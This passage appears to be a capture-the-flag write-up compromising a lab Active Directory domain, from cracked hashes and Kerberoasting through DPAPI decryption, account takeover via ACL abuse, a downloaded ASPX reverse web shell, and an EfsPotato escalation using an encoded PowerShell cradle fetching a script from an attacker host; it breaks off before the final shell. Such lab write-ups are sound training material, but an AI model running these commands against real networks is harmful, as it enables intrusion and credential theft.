JON.PETERS::CITY:cff5fa63924d88af:2fe6dd54b7a910288926838a0e80be8a:010100000000000080234e9f035bdc012e09a65d1ed260090000000002000800550030005500520001001e00570049004e002d00340043003900330030005100480045004f004800580004003400570049004e002d00340043003900330030005100480045004f00480058002e0055003000550052002e004c004f00430041004c000300140055003000550052002e004c004f00430041004c000500140055003000550052002e004c004f00430041004c000700080080234e9f035bdc010600040002000000080030003000000000000000000000000020000067ec76294070fb214ff944d4be8bda3409f04b00d08e33ac493cb2e3fb80606e0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e0039002e0031002e003100320038000000000000000000:1234heresjonny
```

**Recovered Credentials:**
- **Username:** `jon.peters`
- **Password:** `1234heresjonny`

## 6.3 Validating `jon.peters` Credentials

The recovered credentials (`jon.peters:1234heresjonny`) were tested across available services:

```Bash
➜ for proto in smb ldap rdp winrm; \
        do nxc $proto dc-cc.city.local \
                    -u 'jon.peters' -p '1234heresjonny'; \
            echo '----'; \
        done
SMB         10.X.XX.XXX     445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.X.XX.XXX     445    DC-CC            [+] city.local\jon.peters:1234heresjonny
----
LDAP        10.X.XX.XXX     389    DC-CC            [*] Windows 10 / Server 2019 Build 17763 (name:DC-CC) (domain:city.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.X.XX.XXX     389    DC-CC            [+] city.local\jon.peters:1234heresjonny
----
RDP         10.X.XX.XXX     3389   dc-cc.city.local [*] Probably old, doesn't not support HYBRID or HYBRID_EX (nla:True)
RDP         10.X.XX.XXX     3389   dc-cc.city.local [-] None\jon.peters:1234heresjonny ()
----
WINRM       10.X.XX.XXX     5985   DC-CC            [*] Windows 10 / Server 2019 Build 17763 (name:DC-CC) (domain:city.local)
WINRM       10.X.XX.XXX     5985   DC-CC            [-] city.local\jon.peters:1234heresjonny
```

- The credentials are valid for **SMB** and **LDAP**.
- **RDP** and **WinRM** access are denied.

# 7. Targeted Kerberoasting via `jon.peters`

## 7.1 BloodHound Enumeration

With `jon.peters` credentials validated, BloodHound was re-ingested to map additional attack paths. Analysis revealed multiple users with Service Principal Names (SPNs) configured, making them vulnerable to Kerberoasting. Notably, `jon.peters` has **GenericWrite** over several user objects, which could permit targeted Kerberoasting attacks.



## 7.2 Extracting Service Tickets with `targetedKerberoast`

Using `targetedKerberoast`, service tickets were requested for all SPN-enabled accounts reachable by `jon.peters`:

```Bash
➜ targetedkerberoast --dc-host dc-cc.city.local -d city.local
        -u 'jon.peters' -p '1234heresjonny' \
        --dc-ip $ip
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (clerk.john)
$krb5tgs$23$*clerk.john$CITY.LOCAL$city.local/clerk.john*$49b3f42f949c2b1f1ca67ab537759757$3c7af0bc6ab0f8f1bc524ce6e86b01f28d206fc428c384f93b0c1ba7faae5917f3fa2167c818330b5
...[snip]...
d695b2fb955f06ddc7ea3863fd76098ac5fc9e4829fd4975a21a111647b5d3cafb69b1d8cf06371984c1be301f499ba5ffb9b8228128d5f2ef1
[+] Printing hash for (maria.clerk)
$krb5tgs$23$*maria.clerk$CITY.LOCAL$city.local/maria.clerk*$32afd6dc192440a6196aac69c89ee63c$f16d7b1ed62d1380a151a79412ec1b82e9d53f4078816acd0af4c6dba7cdf10bcb09b0ecf894549...[snip]...
dcc8ae45751c93e1f49b7f7d7cd99a96aa3f91fd80ac5003d1412bf939b29d0bb0015e6965aa1468804799a54d4fbafa5252ece8059f3f9e9c2
[+] Printing hash for (paul.roberts)
$krb5tgs$23$*paul.roberts$CITY.LOCAL$city.local/paul.roberts*$e38bc408df21167de1b3e7a1334e9f67$09fd4f9e9a21b98de2eec916f3a333d92fb1c4806a8670fef776ddc1fc9df7dd6163fbbfc642a
...[snip]...
622494dc0a0c55925b4dbbfa3cf1597cd91bd7efd7554ddfc86510b01dc67977679b5bb570a7e4065eea31fa5ed7facaecbca2e6edeebd82202
[+] Printing hash for (nina.soto)
$krb5tgs$23$*nina.soto$CITY.LOCAL$city.local/nina.soto*$a081aca86ddf2d9c21200c57c7669aa6$a5a23dc101e5c20ef7b38e21e8fa735d5e9fa10b304349fea2549f2ae9916edf768873fe341d8c19479
...[snip]...
f27d7d4bf07dee7d604621efe252e1018b41ac208dc3bdfb8141dea23fd079865df7ad64ba797c88dadb33491ef62ec943bc6ea6975e5ab273f
```

## 7.3 Cracking the Hashes

The extracted Kerberos TGS hash for `nina.soto` was cracked offline using `hashcat` mode `13100` with the `rockyou.txt` wordlist:

```Bash
➜ hashcat -a 0 -m 13100 nina.soto.hash /opt/rockyou.txt -d 1
...[snip]...
$krb5tgs$23$*nina.soto$CITY.LOCAL$city.local/nina.soto*$a081aca86ddf2d9c21200c57c7669aa6$...[snip]...5ab273f:123nina321
```

**Recovered Credentials**:
- **Username**: `nina.soto`
- **Password**: `123nina321`

## 7.4 Validating `nina.soto` Credentials

The recovered credentials (`nina.soto:123nina321`) were tested across available services:

```Bash
➜ for proto in smb ldap rdp winrm; \
        do nxc $proto dc-cc.city.local \
                    -u 'nina.soto' -p '123nina321'; \
            echo '----'; \
        done

SMB         10.X.XX.XXX     445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.X.XX.XXX     445    DC-CC            [+] city.local\nina.soto:123nina321
----
LDAP        10.X.XX.XXX     389    DC-CC            [*] Windows 10 / Server 2019 Build 17763 (name:DC-CC) (domain:city.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.X.XX.XXX     389    DC-CC            [+] city.local\nina.soto:123nina321
----
RDP         10.X.XX.XXX     3389   dc-cc.city.local [*] Probably old, doesn't not support HYBRID or HYBRID_EX (nla:True)
RDP         10.X.XX.XXX     3389   dc-cc.city.local [-] None\nina.soto:123nina321 ()
----
WINRM       10.X.XX.XXX     5985   DC-CC            [*] Windows 10 / Server 2019 Build 17763 (name:DC-CC) (domain:city.local)
WINRM       10.X.XX.XXX     5985   DC-CC            [-] city.local\nina.soto:123nina321
```

- The credentials are valid for **SMB** and **LDAP**.
- **RDP** and **WinRM** access are denied.

# 8. Accessing the `Backups` Share with `nina.soto`

## 8.1 Share Enumeration

Using `nina.soto`'s credentials, the SMB shares were spidered again. This time, the previously inaccessible `Backups` share became readable, revealing several backup files:

```Bash
➜ nxc smb dc-cc.city.local \
        -u 'nina.soto' -p '123nina321' \
        -M spider_plus --smb-timeout 5
...[snip]...

SPIDER_PLUS 10.X.XX.XXX     445    DC-CC            [+] Saved share-file metadata to "/home/deus/.nxc/modules/nxc_spider_plus/10.X.XX.XXX.json".
SPIDER_PLUS 10.X.XX.XXX     445    DC-CC            [*] SMB Shares:           7 (ADMIN$, Backups, C$, IPC$, NETLOGON, SYSVOL, Uploads)
SPIDER_PLUS 10.X.XX.XXX     445    DC-CC            [*] SMB Readable Shares:  4 (Backups, IPC$, NETLOGON, SYSVOL)
```

The `spider_plus` output contained the following notable entries:

```json
{
    "Backups": {
        "Documents Backup/City_Council_Official_Records.pdf": {
            "size": "2.24 MB"
        },
        "Documents Backup/Staff_Contacts.txt": {
            "size": "829 B"
        },
        "UserProfileBackups/clerk.john_ProfileBackup_0729.wim": {
            "size": "66.65 MB"
        },
        "UserProfileBackups/sam.brooks_ProfileBackup_0728.wim": {
            "size": "127.27 KB"
        }
    }
```

The Backups share contains Windows Imaging Format (`.wim`) files for user profiles.

> Note: Although credentials for `clerk.john` have already been obtained, the size of his profile backup (`66.65` MB) suggests it may contain additional sensitive data—such as browser history, saved credentials, or configuration files—that could be useful for further enumeration or privilege escalation.

## 8.2 Downloading the Profile Backup

Downloaded the user profiles for offline analysis:

```Bash
# Download clerk.john
➜ nxc smb dc-cc.city.local \
        -u 'nina.soto' -p '123nina321' \
        --share Backups \
        --get-file 'UserProfileBackups/clerk.john_ProfileBackup_0729.wim' './clerk.john_ProfileBackup_0729.wim' \
        --smb-timeout 5

...[snip]...
SMB         10.X.XX.XXX     445    DC-CC            [*] Copying "UserProfileBackups/clerk.john_ProfileBackup_0729.wim" to "./clerk.john_ProfileBackup_0729.wim"
SMB         10.X.XX.XXX     445    DC-CC            [+] File "UserProfileBackups/clerk.john_ProfileBackup_0729.wim" was downloaded to "./clerk.john_ProfileBackup_0729.wim"

# Check file size
➜ du -h clerk.john_ProfileBackup_0729.wim
67M     clerk.john_ProfileBackup_0729.wim
```

## 8.3 Extracting the WIM Profile Backup

The downloaded `.wim` file was extracted using `wimextract`:

```Bash
➜ wimextract clerk.john_ProfileBackup_0729.wim 1 --dest-dir=./johns-loot
[WARNING] Ignoring named data streams of 1 files
[WARNING] Ignoring FILE_ATTRIBUTE_READONLY of 36 files
[WARNING] Ignoring FILE_ATTRIBUTE_HIDDEN of 233 files
[WARNING] Ignoring FILE_ATTRIBUTE_SYSTEM of 235 files
[WARNING] Ignoring FILE_ATTRIBUTE_COMPRESSED of 9 files
[WARNING] Ignoring FILE_ATTRIBUTE_NOT_CONTENT_INDEXED of 312 files
[WARNING] Ignoring reparse data of 2 non-symlink/junction files
[WARNING] Ignoring Windows NT security descriptors of 1624 files
[WARNING] Ignoring object IDs of 17 files
[WARNING] Ignoring DOS names of 1020 files
Extracting file data: 188 MiB of 188 MiB (100%) done
Done extracting files.
```

> Note: The `1` is required because `wimextract` expects both a WIM file and an image index. Omitting it results in the usage error shown.

The extraction produced a full user profile directory structure:

```Bash
➜ ls johns-loot
'3D Objects'/   Favorites/      Searches/         'Lokale Einstellungen'@                                                                         ntuser.dat.LOG1   Vorlagen@
 AppData/       Links/          Videos/            Netzwerkumgebung@                                                                              ntuser.dat.LOG2
 Contacts/      Music/          Anwendungsdaten@   NTUSER.DAT                                                                                     ntuser.ini
 Desktop/       OneDrive/       Cookies@           NTUSER.DAT{fd9a35db-49fe-11e9-aa2c-248a07783950}.TM.blf                                        Recent@
 Documents/     Pictures/       Druckumgebung@     NTUSER.DAT{fd9a35db-49fe-11e9-aa2c-248a07783950}.TMContainer00000000000000000001.regtrans-ms   SendTo@
 Downloads/    'Saved Games'/  'Eigene Dateien'@   NTUSER.DAT{fd9a35db-49fe-11e9-aa2c-248a07783950}.TMContainer00000000000000000002.regtrans-ms   Startmenü@
```

### 8.3.1 Credential Artifacts

Within the user's AppData directory, two locations of interest were identified:

Credential Manager Files:

```Bash
➜ ls -lR johns-loot/AppData/Roaming/Microsoft/Credentials/
johns-loot/AppData/Roaming/Microsoft/Credentials/:
total 4
-rw-r--r-- 1 deus deus 450 Oct 30 21:23 03128079C6E14F37F5AEBDD69E344291
```

DPAPI Master Key Files:

```Bash
➜ ls -lR johns-loot/AppData/Roaming/Microsoft/Protect
johns-loot/AppData/Roaming/Microsoft/Protect:
total 12
drwxr-xr-x 2 deus deus 4096 Oct 30 21:11 S-1-5-21-407732331-1521580060-1819249925-1103/
-rw-r--r-- 1 deus deus   24 Oct 30 21:11 CREDHIST
-rw-r--r-- 1 deus deus   76 Oct 30 21:11 SYNCHIST

johns-loot/AppData/Roaming/Microsoft/Protect/S-1-5-21-407732331-1521580060-1819249925-1103:
total 12
-rw-r--r-- 1 deus deus 900 Oct 30 21:11 BK-CITY
-rw-r--r-- 1 deus deus 740 Oct 30 21:11 de222e76-cb5d-418f-a1c2-7e4e9dfe29e1
-rw-r--r-- 1 deus deus  24 Oct 30 21:11 Preferred
```

**Significance**:

- The file in `Credentials/` is a **DPAPI**-encrypted Credential Manager blob.
- `The Protect/` folder contains the user's *DPAPI* master keys, required to decrypt the credential blob.
- This may expose additional privileged accounts or service credentials stored in the user's Windows Credential Vault.


### 8.3.2 Decrypting DPAPI Credential Blob

The extracted files include a DPAPI master key and an encrypted credential file. Since `clerk.john`'s password (`clerkhill`) is known, the master key can be decrypted and used to reveal any stored credentials.

First, the relevant files were copied to the working directory:

```Bash
➜ cp johns-loot/AppData/Roaming/Microsoft/Protect/S-1-5-21-407732331-1521580060-1819249925-1103/de222e76-cb5d-418f-a1c2-7e4e9dfe29e1 .
➜ cp johns-loot/AppData/Roaming/Microsoft/Credentials/03128079C6E14F37F5AEBDD69E344291 .
```

**Decrypting the Master Key:**

Using `dpapi.py` from Impacket, the master key was decrypted with the user's password:

```Bash
➜ dpapi.py masterkey \
        -file de222e76-cb5d-418f-a1c2-7e4e9dfe29e1 \
        -sid S-1-5-21-407732331-1521580060-1819249925-1103 \
        -password clerkhill
...[snip]...

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : de222e76-cb5d-418f-a1c2-7e4e9dfe29e1
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xedfc873c4b843cb27b48cb55d829bc24c8d2be3fd50ce2aa7ba72b8da6ec65afd41412dfecd16f38a120cadf4089dabb9a1817874e37bbf0d6861117a39dfbbd
```

**Decrypting the Credential File:**

With the master key, the encrypted credential blob was decrypted:

```Bash
➜ dpapi.py credential \
        -file 03128079C6E14F37F5AEBDD69E344291 \
        -key 0xedfc873c4b843cb27b48cb55d829bc24c8d2be3fd50ce2aa7ba72b8da6ec65afd41412dfecd16f38a120cadf4089dabb9a1817874e37bbf0d6861117a39dfbbd
...[snip]...

[CREDENTIAL]
LastWritten : 2025-10-30 15:53:55+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=emma-exclusive-access
Description :
Unknown     :
Username    : city.local\emma.hayes
Unknown     : !Gemma4James!
```

**Recovered Credentials:**
- **Username:** `emma.hayes`
- **Password:** `!Gemma4James!`

### 8.3.3 Validating `emma.hayes` Credentials

The recovered credentials belong to **Emma Hayes**, the IT Helpdesk representative who authored the earlier email regarding write access for `jon.peters`. Her account was validated across available services:

```Bash
➜ for proto in smb ldap rdp winrm; \
        do nxc $proto dc-cc.city.local \
                    -u 'emma.hayes' -p '!Gemma4James!'; \
            echo '----'; \
        done
SMB         10.X.XX.XXX     445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.X.XX.XXX     445    DC-CC            [+] city.local\emma.hayes:!Gemma4James!
----
LDAP        10.X.XX.XXX     389    DC-CC            [*] Windows 10 / Server 2019 Build 17763 (name:DC-CC) (domain:city.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.X.XX.XXX     389    DC-CC            [+] city.local\emma.hayes:!Gemma4James!
----
RDP         10.X.XX.XXX     3389   dc-cc.city.local [*] Probably old, doesn't not support HYBRID or HYBRID_EX (nla:True)
RDP         10.X.XX.XXX     3389   dc-cc.city.local [-] None\emma.hayes:!Gemma4James! ()
----
WINRM       10.X.XX.XXX     5985   DC-CC            [*] Windows 10 / Server 2019 Build 17763 (name:DC-CC) (domain:city.local)
WINRM       10.X.XX.XXX     5985   DC-CC            [-] city.local\emma.hayes:!Gemma4James!
```

- The credentials are valid for **SMB**, **LDAP**, and **RDP**.
- **WinRM** access is denied — the account likely lacks the necessary permissions or group membership.

### 8.3.4 BloodHound Data Collection with `emma.hayes`

With `emma.hayes`' credentials validated, a fresh BloodHound collection was performed to identify any new attack paths accessible to this IT Helpdesk account:

```Bash
➜ nxc ldap dc-cc.city.local \
        -u 'emma.hayes' -p '!Gemma4James!' \
        --bloodhound -c All --dns-server $ip
```

### 8.3.5 BloodHound Analysis – Emma Hayes Privileges

Ingesting the new BloodHound data collected with `emma.hayes`' credentials revealed several critical relationships:



**Key Findings:**

- `EMMA.HAYES@CITY.LOCAL` has **GenericWrite** over the `CITYOPS@CITY.LOCAL` group.
- `EMMA.HAYES` also has **WriteDacl** on the `USER` and `USERSIGNATURE` certificate templates.
- The `CITYOPS` group contains `SAM.BROOKS@CITY.LOCAL`.
- Additionally, `EMMA.HAYES` holds **Enroll** permissions on multiple certificate templates (`EFS`, `CLIENTAUTH`), which may allow AD CS abuse for privilege escalation.

### 8.3.6 BloodHound Analysis – `sam.brooks` WinRM Access

Further examination of the BloodHound data revealed the group memberships for `SAM.BROOKS@CITY.LOCAL`:



**Key Finding:**
- `SAM.BROOKS` is a member of the **`REMOTEMANAGEMENTUSERS@CITY.LOCAL`** group.
- This group membership grants the user **WinRM (Remote PowerShell)** access to the Domain Controller.
- This explains why earlier credential validation attempts for other users failed for WinRM—only `SAM.BROOKS` possesses this privilege.
- **Note:** The `SAM.BROOKS` account is currently **disabled** (`Enabled: FALSE`). To leverage his WinRM access, the account must first be enabled.

**Attack Path:**
1. Use `emma.hayes`' **GenericWrite** on the `CITYOPS` group to add a controlled account (e.g., `clerk.john` or `nina.soto`).
2. The added account inherits all privileges of the `CITYOPS` group, including any access granted to `sam.brooks`.
3. Alternatively, leverage **WriteDacl** on the certificate templates to compromise accounts via AD CS escalation (e.g., ESC1/ESC4).
4. If targeting `sam.brooks` directly, the account must be re‑enabled (requires appropriate permissions, potentially achievable via `emma.hayes` or other compromised accounts).

# 9. Compromising `Sam.Brooks` and Gaining Initial Access

## 9.1 Abusing GenericWrite on the CityOps OU

BloodHound revealed that `emma.hayes` possesses **GenericWrite** over the `CityOps` Organizational Unit (OU), which contains the `sam.brooks` user account. This permission allows modification of the OU's ACL and all child objects, providing a path to enable the disabled account and reset its password.

Using `bloodyAD`, the following actions were performed:

**1. Grant Full Control Over the CityOps OU**
```Bash
➜ bloodyAD --host 'dc-cc.city.local' -d 'city.local' \
        -u 'emma.hayes' -p '!Gemma4James!' \
        add genericAll 'OU=CityOps,DC=city,DC=local' 'emma.hayes'
[+] emma.hayes has now GenericAll on OU=CityOps,DC=city,DC=local
```

**2. Take Ownership of the OU**
```Bash
➜ bloodyAD --host 'dc-cc.city.local' -d 'city.local' \
        -u 'emma.hayes' -p '!Gemma4James!' \
        set owner 'OU=CityOps,DC=city,DC=local' 'emma.hayes'
[+] Old owner S-1-5-21-407732331-1521580060-1819249925-512 is now replaced by emma.hayes on OU=CityOps,DC=city,DC=local
```

**3. Verify `sam.brooks` Account Status**
```Bash
➜ bloodyAD --host 'dc-cc.city.local' -d 'city.local' \
        -u 'emma.hayes' -p '!Gemma4James!' \
        get object 'sam.brooks' --attr userAccountControl

distinguishedName: CN=Sam Brooks,OU=CityOps,DC=city,DC=local
userAccountControl: ACCOUNTDISABLE; NORMAL_ACCOUNT
```

**4. Enable the Account (Remove ACCOUNTDISABLE Flag)**
```Bash
➜ bloodyAD --host 'dc-cc.city.local' -d 'city.local' \
        -u 'emma.hayes' -p '!Gemma4James!' \
        remove uac 'sam.brooks' -f ACCOUNTDISABLE
[+] ['ACCOUNTDISABLE'] property flags removed from sam.brooks's userAccountControl
```

**5. Confirm Account is Now Enabled**
```Bash
➜ bloodyAD --host 'dc-cc.city.local' -d 'city.local' \
        -u 'emma.hayes' -p '!Gemma4James!' \
        get object 'sam.brooks' --attr userAccountControl

distinguishedName: CN=Sam Brooks,OU=CityOps,DC=city,DC=local
userAccountControl: NORMAL_ACCOUNT
```

**6. Reset `sam.brooks`' Password**
```Bash
➜ bloodyAD --host 'dc-cc.city.local' -d 'city.local' \
        -u 'emma.hayes' -p '!Gemma4James!' \
        set password 'sam.brooks' 'StrongPassword123!'
[+] Password changed successfully!
```

**7. Validate New Credentials**
```Bash
➜ nxc smb dc-cc.city.local \
        -u 'sam.brooks' -p 'StrongPassword123!'
SMB         10.X.XX.XXX     445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.X.XX.XXX     445    DC-CC            [+] city.local\sam.brooks:StrongPassword123!
```

## 9.2 WinRM Shell Access

With `sam.brooks` enabled and credentials in hand, a WinRM session was established to the Domain Controller:

```Bash
➜ evil-winrm-py -i dc-cc.city.local -u 'sam.brooks' -p 'StrongPassword123!'
...[snip]...
PS C:\Users\sam.brooks\Documents> whoami; hostname
city\sam.brooks
DC-CC

# Capture User flag..
PS C:\Users\sam.brooks\Documents> type ..\Desktop\user.txt
FLAG[UncLeSaMwasheRe]

# Privs
PS C:\Temp> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

# 10. Privilege Escalation to `web_admin`

## 10.1 Reconnaissance of Web Root Permissions

From the WinRM session as `sam.brooks`, the access control list of the IIS web root (`C:\inetpub\wwwroot`) was examined using `icacls`:

```powershell
# Display the access control list (ACL) for the web root director
PS C:\Temp> icacls C:\inetpub\wwwroot
C:\inetpub\wwwroot BUILTIN\IIS_IUSRS:(RX)
                   BUILTIN\IIS_IUSRS:(OI)(CI)(RX)
                   CITY\web_admin:(OI)(CI)(M)
                   BUILTIN\IIS_IUSRS:(OI)(CI)(IO)(GR,GE)
                   CITY\web_admin:(I)(OI)(CI)(M)
                   NT SERVICE\TrustedInstaller:(I)(F)
                   NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
                   NT AUTHORITY\SYSTEM:(I)(F)
                   NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                   BUILTIN\Administrators:(I)(F)
                   BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                   BUILTIN\Users:(I)(RX)
                   BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                   CREATOR OWNER:(I)(OI)(CI)(IO)(F)

## Recursively check subfolders
PS C:\Temp> icacls C:\inetpub\wwwroot /T
```

**Key Finding:**
- The user `CITY\web_admin` has **Modify (M)** permissions on the web root and all child objects (denoted by `(OI)(CI)(M)`).
- The current user `sam.brooks` lacks write access, preventing direct web shell deployment.

## 10.2 Path Forward – Compromising `web_admin`

To leverage the `web_admin` write access for code execution on the IIS server, the account must first be compromised. Earlier enumeration revealed that `web_admin` resides in the `Quarantine` OU and may be disabled.

**Plan:**

1. Move `web_admin` from `OU=Quarantine` to `OU=CityOps` using `emma.hayes`' LDAP permissions (as demonstrated in Section 9.1.2).
2. Once under the `CityOps` OU, `emma.hayes` can reset the account's password and enable it (if disabled) using `bloodyAD` or similar.
3. With valid credentials, write an ASPX web shell to `C:\inetpub\wwwroot` (either via SMB or directly from the WinRM session) and trigger it to gain code execution as `IIS APPPOOL\DefaultAppPool` or `SYSTEM`, depending on the application pool identity.
4. Escalate to Domain Admin from there.

## 10.3 Moving and Resetting `web_admin` with `powerview.py`

Using `emma.hayes`' credentials, the `powerview.py` interactive shell was launched to perform the necessary LDAP modifications:

```Bash
➜ powerview city.local/emma.hayes:'!Gemma4James!'@dc-cc.city.local
Logging directory is set to /home/deus/.powerview/logs/city

╭─LDAP─[DC-CC.city.local]─[CITY\emma.hayes]-[NS:<auto>]
╰─ ❯ Set-DomainObjectDN -Identity "CN=Web Admin,OU=Quarantine,DC=city,DC=local" -DestinationDN "OU=CityOps,DC=city,DC=local"
[2026-03-28 00:55:13] [Set-DomainObject] Success! modified new dn for CN=Web Admin,OU=Quarantine,DC=city,DC=local
```

The `web_admin` user was successfully moved from the `Quarantine` OU to the `CityOps` OU, where `emma.hayes` holds full control.

Next, the account password was reset:

```Bash
╭─LDAP─[DC-CC.city.local]─[CITY\emma.hayes]-[NS:<auto>]
╰─ ❯ Set-DomainUserPassword -Identity web_admin -AccountPassword 'StrongPassword123!'
[2026-03-28 00:55:33] [Set-DomainUserPassword] Principal CN=Web Admin,OU=CityOps,DC=city,DC=local found in domain
[2026-03-28 00:55:40] [Set-DomainUserPassword] Password has been successfully changed for user web_admin
```

**New Credentials:**
- **Username:** `web_admin`
- **Password:** `StrongPassword123!`

### 10.3.1 Password Reset Quirk with `powerview.py`

When validating the new password with `nxc`, the account returned `STATUS_PASSWORD_MUST_CHANGE`:

```Bash
➜ nxc smb dc-cc.city.local \
        -u 'web_admin' -p 'StrongPassword123!'
SMB         10.X.XX.XXX     445    DC-CC            [-] city.local\web_admin:StrongPassword123! STATUS_PASSWORD_MUST_CHANGE
```

This occurs because `powerview.py` sets the password but may leave the `pwdLastSet` attribute as `0`—a flag that forces the user to change their password at next login. To clear this flag, the password was set again using `bloodyAD`, which properly updates `pwdLastSet` to `-1` (current time):

```Bash
➜ bloodyAD --host 'dc-cc.city.local' -d 'city.local' \
        -u 'emma.hayes' -p '!Gemma4James!' \
        set password 'web_admin' 'StrongPassword123!'
[+] Password changed successfully!

➜ nxc smb dc-cc.city.local \
    -u 'web_admin' -p 'StrongPassword123!'
SMB         10.X.XX.XXX     445    DC-CC            [+] city.local\web_admin:StrongPassword123!
```

The account is now fully operational with the same credentials.

## 10.5 Obtaining a Reverse Shell as `web_admin` via `RunasCs`

Since only `sam.brooks` had WinRM access, and `web_admin` lacked direct remote shell privileges, `RunasCs` was used from the existing session to execute commands as `web_admin` and validate write access to the web root.

First, `RunasCs.exe` was downloaded to the target:

```powershell
PS C:\temp> iwr http://10.XX.XX.XX/RunasCs.exe -o RunasCs.exe
```

Then, a reverse PowerShell session was launched as `web_admin`:

```powershell
PS C:\temp> .\RunasCs.exe web_admin StrongPassword123! powershell -r 10.XX.XX.XX:9294
[*] Warning: User profile directory for user web_admin does not exists. Use --force-profile if you want to force the creation.
[*] Warning: The logon for user 'web_admin' is limited. Use the flag combination --bypass-uac and --logon-type '5' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-2d3ef10$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 5380 created in background.
```

On the attacker machine, a netcat listener captured the connection:

```Bash
➜ rlwrap -cAr ncat -lvp 9294
...[snip]...

PS C:\Windows\system32> whoami; hostname
whoami; hostname
city\web_admin
```

With a shell running as `web_admin`, write access to the IIS web root was confirmed by creating a test file:

```powershell
PS C:\Windows\system32> echo "pwn-it" > "C:\inetpub\wwwroot\pwn.txt"

PS C:\Windows\system32> type C:\inetpub\wwwroot\pwn.txt
pwn-it
```

**Outcome:**
- `web_admin`'s **Modify** permission on `C:\inetpub\wwwroot` is fully usable.
- A reverse shell was achieved without requiring WinRM or RDP access for this user.
- The stage is set to deploy a persistent web shell or escalate further.

## 10.6 Deploying a Reverse Web Shell & Gaining IIS Access

With write access to the web root confirmed, a pre‑crafted ASPX reverse shell was uploaded to the target. The shell was designed to initiate a TCP connection back to the attacker's machine upon execution.

**Uploading the Shell**

Using the `web_admin` reverse PowerShell session (or directly from `sam.brooks`' WinRM session), the shell file was downloaded from the attacker's HTTP server and placed into `C:\inetpub\wwwroot\`:

```powershell
PS C:\Windows\system32> iwr http://10.XX.XX.XX/shell.aspx -o "C:\inetpub\wwwroot\shell.aspx"
```

**Local Verification**

A local test confirmed the file was present and executed by IIS, though it produced no visible output (expected behavior for a reverse shell that spawns a background process):

```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri http://localhost/shell.aspx -UseBasicParsing

StatusCode        : 200
StatusDescription : OK
Content           :
RawContent        : HTTP/1.1 200 OK
```

**Triggering the Reverse Shell**

A netcat listener was started on the attacker machine, and the shell was triggered by navigating to `http://city.local/shell.aspx` (or by using `curl`). Immediately, a connection was received:

```Bash
➜ rlwrap -cAr ncat -lvp 9295
...[snip]...

c:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>hostname
DC-CC
```

**Outcome**

- A reverse shell was obtained running as **`IIS APPPOOL\DefaultAppPool`**, the service account for the IIS application pool.
- This identity is a low‑privileged local account, but it provides a foothold on the Domain Controller itself.
- From here, further enumeration for privilege escalation vectors (e.g., SeImpersonate, misconfigured services, or AlwaysInstallElevated) can be performed.

## 10.7 Local Privilege Escalation to SYSTEM (SeImpersonate)

The `DefaultAppPool` service account possesses **SeImpersonatePrivilege**, making it vulnerable to token impersonation attacks. **EfsPotato** was used to escalate to `NT AUTHORITY\SYSTEM`.

First, the exploit binary was downloaded to the target:

```powershell
PS C:\temp> iwr http://10.XX.XX.XX/EfsPotato.exe -o EfsPotato.exe
```

Start the listener:

```Bash
➜ rlwrap -cAr ncat -lvp 9001
```

A PowerShell Cradle was prepared to connect back to the attacker's machine on port `9001`. The payload was executed via **EfsPotato**:

```powershell
PS C:\temp> .\EfsPotato.exe "powershell -nop -W hidden -noni -ep bypass -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADIAMAAwAC4ANAAzAC4AMQAyADgALwBzAGgAZQBsAGwALgBwAHMAMQAiACkA"

Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]

[+] Current user: IIS APPPOOL\DefaultAppPool
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=8a5890)
[+] Get Token: 860
[!] process with pid: 1700 created.
==============================
#< CLIXML
[x] EfsRpcEncryptFileSrv failed: 1818
```

Despite the `EfsRpcEncryptFileSrv failed` message, the exploit successfully spawned the reverse shell. On the attacker's listener, a connection was received:

```Bash
